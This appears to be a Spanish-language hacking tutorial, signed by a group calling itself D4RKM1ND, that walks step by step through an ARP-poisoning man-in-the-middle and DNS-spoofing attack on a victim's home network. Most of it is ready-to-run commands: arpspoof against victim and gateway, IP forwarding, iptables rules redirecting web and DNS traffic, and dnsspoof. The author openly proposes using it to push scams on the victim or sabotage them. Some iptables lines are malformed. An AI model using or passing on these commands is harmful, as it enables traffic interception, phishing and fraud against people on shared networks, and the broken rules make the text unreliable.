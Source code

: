 _Este es un pequeño ejemplo de como realizar un ataque de hombre en medio y dns._ 
 
*Texto original por #D4rKM1nD*

Maquina víctima: addr:192.168.1.233
Dirección del gateway: 192.168.1.1 

*Console 1*:
arpspoof -i eth0 -t 192.168.1.1 192.168.1.233


*Console 2*:
arpspoof -i eth0 -t 192.168.1.233 192.168.1.1


*_Con eso estamos envenenando la arp de la víctima y el gateway_*
_Cada segundo está mandando un paquete arp repply_

~La dirección física que muestra es la correspondiente al de eth0.~

_Con este ataque todos los paquetes que pacen entre el gateway y víctima pasarán por nosotros antes._


*Console 3*:
*Entonces nuestra máquina tiene que funcionar solo como pasadera*. 
*#D4M1*
_Tenemos que editar los siguientes ficheros:_
Enruta los paquetes entre gateway y víctima: echo 1 > /proc/sys/net/ipv4/ip_forward 

_Filtrar los paquetes DNS, esto para que las respuestas DNS las realicemos nosotros mismos:_
1.-iptables --flush 

2.-iptables --zero 

3.-iptables --delete-chain

4.-iptables -F -t nat 

5.-iptables --append FORWARD --in-interface eth0 --jump ACCEPT 

6.-iptables --table nat --append POSTROUTING --out-interface eth0 --jump MASQUERADE

7.-iptables -t nat -A PREROUTING -p tcp --dport 80 --jump DNAT --to-destination 192.168.1.169 

8.-iptables -t nat -A PREROUTING -p tcp --dport 443 --jump DNAT --to-destination 192.168.1.169 

9.-iptables -A INPUT -p udp -s 0/0 --sport 53 -d 192.168.1.1 --dport 53 -m state --state NEW, ESTABLISHED -j DROP

10.-iptables -A OUTPUT -p udp -s 192.168.1.1 --sport 53 -d 0/0 --dport 1024:65535 -m state ESTABLISHED -j DROP

11.-iptables -A INPUT -p udp -s 0/0 --sport 53 -d 192.168.1.1 --dport 53 -m state --state NEW, ESTABLISHED -j DROP

12.-iptables -A OUTPUT -p udp -s 192.168.1.1 --sport 53 -d 0/0 --dport 53 -m state --state ESTABLISHED -j DROP

13.-iptables -t nat -A PREROUTING -i eth0 -p udp --dport 53 -j DNAT --to 192.168.1.169

14.-iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 53 -j DNAT --to 192.168.1.169


_Podemos usar dnsSpoof para resolver las peticiones del objetivo a una arbitraria_:
nano dnsSpoof.txt 

La dirección IP: 192.168.1.169 está asociada a la interfaz de red eth0: ifconfig 



Dado que las respuestas contienen la dirección IP de la víctima... 
Todas las peticiones DNS se redirigiran a la IP:192.168.1.169


*Ataque con DNS Spoofed*
dnsspoof -i eth0 -f dnsSpoofed.txt

Se va a la víctima y se ejecuta el comando arp... 
Se podrá ver que la dirección del gateway está asociada a la dirección física de nuestra interfaz de red.

Si consulta cualquier dominio se mostrará nuestro servidor web, ejecutándose en nuestra IP... 

¿De que sirve esto? 
Pues podríamos montar en nuestro servidor un scam de cualquier tipo y obligar a que el usuario pille en nuestra trampa... 
O tan solo, solo dejar una página montada de error para joder a nuestra víctima.


*Contenido creado y editado por D4RKM1ND cualquier uso del mismo en fines educativos pronunciar su origen...*
*NO SOMOS RESPONSABLES DE SU MAL USO*

*#D4M1*

*#BROKENMINDS*

*#D4RKM1ND*

_Somos Hackers No Delincuentes_. 


_La Libertad No Se Súplica, Se Conquista_. 

*AÚN SE ENCUENTRA EN EDICIÓN*





